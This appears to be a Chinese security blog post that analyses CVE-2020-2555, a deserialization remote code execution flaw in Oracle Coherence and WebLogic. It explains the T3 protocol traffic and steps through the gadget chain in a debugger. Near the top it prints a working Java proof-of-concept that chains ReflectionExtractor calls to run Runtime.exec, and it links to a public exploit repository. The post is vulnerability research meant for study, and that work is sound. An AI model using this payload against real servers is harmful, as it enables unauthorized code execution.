






# CVE-2020-2555：Weblogic Cohence 反序列化 RCE 分析利用 - i 春秋 - 博客园

> 原文：[`www.cnblogs.com/ichunqiu/p/13600938.html`](https://www.cnblogs.com/ichunqiu/p/13600938.html)


在对 Java Web 应用程序进行研究时，不安全的反序列化漏洞已经成为了攻击者或研究人员的常见目标了。这些漏洞将导致他人在目标设备上可靠地实现远程代码执行，而且这类漏洞通常很难修复。

2020 年 3 月 6 日 Weblogic 公开了该漏洞，这是一个严重漏洞，CVSS 评分为 9.8，该漏洞将影响 Oracle Coherence 库，而这个库在 Oracle WebLogic Server 等流行产品中都有广泛使用。

此次受影响版本：

*   Oracle Coherence 3.7.1.17
*   Oracle Coherence 12.1.3.0.0
*   Oracle Coherence 12.2.1.3.0.0
*   Oracle Coherence 12.2.1.4.0.0

**本文目标**

1、学习 T3 协议、Java 反序列化在网络传输时流量特征；

2、理解漏洞形成的原因 Gadget，学习 poc 构造技巧；

3、为下一步利用该洞做回显准备。


**调试分析**

POC：https://github.com/Y4er/CVE-2020-2555

JDK：1.8.131

IDEA：2019.3.3

Weblogic：12.2.1.3.0.0

运行 weblogic_t3.py 通过 t3 协议发送序列化的 payload

POC 去除无关行后约 30 行，如下：

```
String cmd = "calc";
//定义多次转换链进行反射调用
ValueExtractor[] valueExtractors = new ValueExtractor[]{
        new ReflectionExtractor("getMethod", new Object[]{
                "getRuntime", new Class[0]
        }),
        new ReflectionExtractor("invoke", new Object[]{null, new Object[0]}),
        new ReflectionExtractor("exec", new Object[]{new String[]{"cmd", "/c", cmd}})
};

//初始化 LimitFiler 类实例
LimitFilter limitFilter = new LimitFilter();
limitFilter.setTopAnchor(Runtime.class);
BadAttributeValueExpException expException = new BadAttributeValueExpException(null);
Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
m_comparator.setAccessible(true);
m_comparator.set(limitFilter, new ChainedExtractor(valueExtractors));
Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
m_oAnchorTop.setAccessible(true);
m_oAnchorTop.set(limitFilter, Runtime.class);

//将 limitFilter 放入 BadAttributeValueExpException 的 val 属性中
Field val = expException.getClass().getDeclaredField("val");
val.setAccessible(true);
val.set(expException, limitFilter);

//生成序列化 payload
ObjectOutputStream objectOutputStream = new ObjectOutputStream(null);
objectOutputStream.writeObject(expException);
objectOutputStream.close();
```

**1、关于 T3 协议部分**



发包后，用 wireshark 抓包，发送的第一个包为 T3 协议头，T3 协议头为 t3 12.2.1\nAS:255\nHL:19”，第一行为"t3"加 weblogic 客户端的版本号。



Weblogic 服务器的返回数据为"HELO:12.2.1.3.false\nAS:2048\nHL:19"，第一行为“HELO:”加 Weblogic 服务器的版本号。Weblogic 客户端与服务器发送的数据均以“\n\n”结尾。



Weblogic_t3.py 向 Weblogic 发送了 T3 协议头的数据包，然后读取序列化数据进行发送。

在数据中查找 JAVA 序列化魔术头部 ac ed 00 05 可以发现出现多处，观察到 T3 协议使用 jre 的原生 ObjectOutputStream。



exp 被切割为多段传输，以 fe 01 00 00 隔开。



**2、T3 协议反序列化执行**

将断点设在 T3 入口，InboundMsgAbbrev#readObject( )；

第 47 行 ServerChannelInputStream(其父类为 ObjectInputStream)的构造方法，将 MsgAbbrevInputStream 的 in 实例转为 ObjectInputStream 类型。


上图第 47 行末尾是关键，调用 ObjectInputStream#readObject( )，来到 80 行，super(in)将执行 Object 类初始化。


至此，成功进入 jre 原生反序列化 ObjectInputStream.readObject( )。接下来将进入 BadAttributeValueExpException#readObject( )，(恶意变量被取出，结合 POC 第 25 行理解)。在 ysoserial 的 CommonsCollections5 的 gadget 最外层的入口即为该类，因为 security manager 为 null 的情况下（下图第 78 行）将进入 if 分支，调用 LimitFilter #tostring( )。


**3、coherence.jar 反序列化执行**

恶意数据传入 weblogic 代码部分，

coherence.jar!com/tangosol/util/filter/LimitFilter 类。

注意力集中

coherence.jar!com/tangosol/util/filter/LimitFilter #tostring。

那么接下来将获取到该类的 m_comparator 成员属性(恶意变量被取出，结合 POC 第 17 行理解)，并调用其 extract 函数，因为 limitfilter 实例由我们 poc 中提供，因此 this.m_oAnchorTop 可控(恶意变量被取出，结合 POC 第 20 行理解)。


chained 从字面意思上来理解就是其肯定存在一个为数组类型的成员属性保存一组 Extractor 来依次调用其 extract 函数，并将调用结果返回(注意理解第 34 行 oTarget 迭代)。


那么在 poc 中 chainedExtractor 中存放的为 coherence.jar 中的 com/tangosol/util/extractor/ReflectionExtractor 类的实例，其 extract 函数中也正是实现了任意方法的调用，注意到 59 行传入 2 个参数(第一个参数是方法属于的对象，第二个可变参数是该方法的参数)，其中方法名 this.m_sMethod 和对应的参数值 this.m_aoParam 都是可控的(恶意变量被取出，结合 POC 第 4-8 行理解)。


invoke 表示，调用包装在当前 Method 对象中的方法。


第一回，反射调用 Runtime 类 getmethod 方法(结合 POC 第 20 行理解)，返回值为 Method 类型的 getruntime 方法(见上图第 59 行)

第二回，我们希望反射调用 invoke 函数，getruntime 方法已准备好，故可执行 invoke 得到 Runtime 类的实例，这就是为什么构造 this.m_sMethod=invoke(即为 poc 第 7 行 invoke)。


第三回，经过前面 2 次积累，有了 Runtime 实例，因此可调用 exec 方法执行命令。构造 this.m_sMethod=exec(即为 poc 第 8 行 exec)，实验结束。



**4、chainedExtractor 链式调用反射**

（1）补充 oTarget 的 3 次变化(class->method->instance)


（2）补充 method 变量的 3 次变化(class->method->instance)


**相关借阅**

1、Y4er/CVE-2020-2555：https://github.com/Y4er/CVE-2020-2555

2、Java Method 类：http://www.51gjie.com/java/796.html

3、反序列化漏洞分析（CVE-2020-2555）：https://lucifaer.com/

今天的文章分享，小伙伴们看懂了吗？